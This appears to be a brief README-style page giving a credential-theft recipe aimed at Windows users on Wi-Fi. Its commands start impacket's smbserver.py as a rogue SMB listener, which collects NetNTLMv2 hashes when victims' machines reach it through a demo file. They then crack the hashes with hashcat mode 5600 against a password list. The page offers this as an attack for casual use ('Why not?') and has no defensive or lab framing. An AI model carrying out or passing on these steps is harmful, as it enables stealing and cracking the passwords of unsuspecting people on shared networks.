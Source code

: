 ## When
Still works as of a few moments ago

## Where
Anywhere somebody has wifi enabled and is using Windows.

## How
```
git clone https://github.com/fortra/impacket.git
cd impacket/examples
python3 ./smbserver.py rustler /mnt -debug -smb2support
```

Point the accompanying demo file towards the smbserver.  Store any hashes in hashes.txt.

Grab a copy of [hashcat](https://hashcat.net/hashcat/).  Create a list of passwords called passwords.txt.
```
hashcat -m 5600 hashes.txt passwords.txt
```

## Why
Why not?
